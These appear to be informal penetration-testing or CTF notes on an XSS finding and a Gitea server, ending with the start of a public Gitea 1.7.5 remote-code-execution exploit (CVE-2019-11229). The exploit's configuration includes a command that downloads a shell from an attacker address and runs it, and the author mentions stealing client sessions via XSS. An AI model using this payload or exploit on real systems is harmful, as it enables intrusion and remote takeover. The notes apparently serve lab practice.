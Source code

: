 So... I have no much skills about XSS but I need to investigate what im able to do with this.

This is strange because when this alert appears i'm in a "pro version" and im able to upload images, otherwise i just can put the h1 and the txt..

![[Screenshot_2023-09-15_15_05_38.png]]

This is strange XSS affects just the clients, not the server.. so i'm able to pwn clients and steal sessions, but I cant do many things to the server side.

When I see the petition with burpsuit this server Is redirecting me 

![[Screenshot_2023-09-15_15_23_20.png]]

![[Screenshot_2023-09-15_15_23_56.png]]

![[Screenshot_2023-09-15_15_24_08.png]]

This gitea has a vulnerability of remote code execution. BUUT WE NEED TO HAVE CREDENTIALS THIS IS THE EXPLOIT


https://www.exploit-db.com/exploits/49383
```
```py
# Exploit Title: Gitea 1.7.5 - Remote Code Execution
# Date: 2020-05-11
# Exploit Author: 1F98D
# Original Author: LoRexxar
# Software Link: https://gitea.io/en-us/
# Version: Gitea before 1.7.6 and 1.8.x before 1.8-RC3
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2019-11229
# References:
# https://medium.com/@knownsec404team/analysis-of-cve-2019-11229-from-git-config-to-rce-32c217727baa
#
# Gitea before 1.7.6 and 1.8.x before 1.8-RC3 mishandles mirror repo URL settings,
# leading to authenticated remote code execution.
# 
#!/usr/bin/python3

import re
import os
import sys
import random
import string
import requests
import tempfile
import threading
import http.server
import socketserver
import urllib.parse
from functools import partial

USERNAME = "test"
PASSWORD = "password123"
HOST_ADDR = '192.168.1.1'
HOST_PORT = 3000
URL = 'http://192.168.1.2:3000'                                                                                                                                                                          
CMD = 'wget http://192.168.1.1:8080/shell -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell'                                                                                                             
                                                                                                                                                                                                             
```